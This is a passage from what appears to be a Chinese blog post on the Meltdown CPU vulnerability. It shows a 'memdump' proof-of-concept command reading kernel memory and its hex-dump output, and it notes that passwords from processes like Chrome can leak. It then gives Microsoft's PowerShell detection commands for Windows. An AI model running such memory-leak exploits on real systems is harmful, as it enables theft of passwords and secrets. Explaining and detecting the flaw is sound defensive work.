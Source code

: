 转存内存
----

程序可以打印从任意位置开始的内存信息：

```bash
$ taskset 0x1 ./memdump 0x240000000 （0xffff880000000000）
```

上述表示从0x240000000开始打印内存信息，应该可以看到这样的输出：

 

```bash
2400001cf: | 00 00 00 00 00 00 00 00 00 00 00 73 00 00 00 00 | ...........s.... |
 2400001df: | 00 00 00 00 00 00 6c 64 00 00 00 00 00 00 00 00 | ......ld........ |
 24000022f: | 69 63 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ic.............. |
 2400002af: | 00 00 00 00 00 00 00 64 00 00 00 00 00 00 00 00 | .......d........ |
 2400002df: | 00 00 00 00 00 00 00 6f 6e 67 00 00 00 00 00 00 | .......ong...... |
 24000069f: | 00 00 00 00 00 20 00 00 00 00 00 00 00 00 00 00 | ..... .......... |
 2400007cf: | 00 00 00 69 00 00 00 00 00 00 00 00 00 00 00 00 | ...i............ |
 2400008df: | 00 00 00 00 00 00 6f 00 00 00 00 00 00 00 00 00 | ......o......... |
 2400009ff: | 00 00 00 74 61 00 00 00 00 00 00 00 00 00 00 00 | ...ta........... |
 240000b8f: | 00 00 00 00 00 50 00 00 00 00 00 00 00 00 00 00 | .....P.......... |
 240000bcf: | 68 69 73 00 00 00 68 69 73 00 69 73 00 00 00 00 | his...his.is.... |
 240000d0f: | 00 00 00 00 77 65 00 00 00 00 00 00 00 00 00 00 | ....we.......... |
 240000e4f: | 00 00 00 00 00 00 00 72 00 00 00 00 00 00 00 00 | .......r........ |
 240000f9f: | 00 00 00 00 00 00 00 00 00 00 00 00 00 65 61 00 | .............ea. |
 24000124f: | 00 64 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .d.............. |
 24000129f: | 00 00 00 00 00 00 00 00 79 6f 00 00 00 00 00 00 | ........yo...... |
 2400012ef: | 00 65 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .e.............. |
 24000139f: | 00 00 00 00 00 00 00 00 00 20 00 00 00 00 00 00 | ......... ...... |
 24000160f: | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 6e | ...............n |
 24000161f: | 00 00 00 00 00 00 00 00 00 00 00 64 00 00 00 00 | ...........d.... |
 24000165f: | 00 00 00 00 00 00 00 00 00 65 00 00 00 00 00 00 | .........e...... |
 24000178f: | 00 00 6f 00 00 00 00 00 00 00 00 00 00 00 00 00 | ..o............. |
 24000179f: | 00 00 00 00 00 00 00 00 77 6f 00 00 00 00 00 00 | ........wo...... |
 240001acf: | 00 00 00 00 00 00 00 00 00 6f 00 00 00 00 00 00 | .........o...... |
```

如果可以探测Chrome等进程的地址，那么可以看到你的密码被打印出来。

漏洞检测
====

Windows
-------

Windows客户，通过使用微软公司发布的检测PowerShell脚本，能够判断Windows系统是否受漏洞影响。

*   首先，需要安装相应的PowerShell模块，对应命令：`PS> Install-Module SpeculationControl`
*   其次，需要调用相应脚本，对应命令：`PS> PS> Get-SpeculationControlSettings`
*   其中，开启的保护会显示为True，未开启的保护则会显示为False，如下图所示：

![Windows修复](https://cdn.jsdelivr.net/npm/hackerchai@0.3.0/blog/images/2018/01/windows-meltdown-fix.webp)]

Linux
-----
